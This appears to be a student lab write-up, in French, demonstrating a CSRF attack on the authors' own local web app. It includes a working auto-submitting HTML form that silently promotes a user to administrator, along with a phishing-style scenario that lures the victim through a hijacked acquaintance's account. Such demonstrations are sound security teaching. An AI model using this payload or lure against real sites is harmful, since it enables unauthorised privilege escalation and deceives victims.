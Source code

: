 # CSRF

Cet exemple illustre une attaque csrf sur le site web sti.

## Introduction

### Cible

L'attaque consiste à modifier le rôle d'un utilisateur pour le rendre administrateur.

### Condition 

Les conditions pour mener l'attaque à bien sont les suivantes

- L'attaquant connait les champs du formulaire permettant d'effectuer la requête POST
- L'attaquant a réussi à convaincre l'utilisateur de visiter son site web malveillant où se trouve sa page effectuant une requête POST.

Faiblesse de l'exemple :

- L'utilisateur sait que le rôle a été modifié car un message de confirmation s'affiche

### Démonstration

### Mise en place de l'infrastructure

L'attaquant possède un site web avec une page html contenant :

- Le formulaire a envoyer pour modifier le rôle de l'utilisateur
- Un code javascript effectuant directement la requête sans que l'utilisateur n'ait à le faire soi-même

### Page role.html

```html
<!DOCTYPE HTML>
<html>
    <head></head>
    <body>
    <form class='form' name="roleForme" method='POST' action="http://localhost:8080/index.php?action=vue_role&qIdUser=2" enctype="multipart/form-data">
  <!--
// vue_select_role.php
// Date de création : 07/10/2021
// Fonction : vue contenant les balises select pour changer le role d'un utilisateur
// __________________________________________
  -->
  <select  name="role">
      <option value="1"selected>Administrateur</option>
      <option value="2">Collaborateur </option>
    </select>
       <button type="submit" class="btn btn-primary" name="addRole">Envoyer</button>
    </form>
    <script language="javascript">document.roleForme.submit();</script>
</body>
</html>

```

Le code ci-dessus va automatiquement émettre une requête POST avec le contenu du formulaire dès que l'utilisateur est sur la page.

```html
<script language="javascript">document.roleForme.submit();</script>
```



### Scénario social engineering

Cette exemple illustre une façon possible pour convaincre l'utilisateur de cliquer sur le lien.

Il envoie le lien url de son site web et fait en sorte que l'utilisateur clique dessus. Par exemple, il a réussi à obtenir le compte email ou  facebook d'une connaissance de la victime. Il envoit l'email suivant :

![csrf-email](./assets/csrf/csrf-email.PNG)

L'utilisateur ne se méfie pas et clique sur lien url qui l'envoie sur le site malveillant contenant la page html (formulaire + script javascript)



### Résultat :

Une fois sur la page, le formulaire sera directement envoyé et l'action exécutée

Le rôle a bien été modifié !

![csrf-result](./assets/csrf/csrf-result.PNG)

Lorsqu'on se connecte en tant qu'user, on constate bien que la partie administration est dorénavant accessible![csrf-result2](./assets/csrf/csrf-result2.PNG)



### Sources 

- https://portswigger.net/web-security/csrf

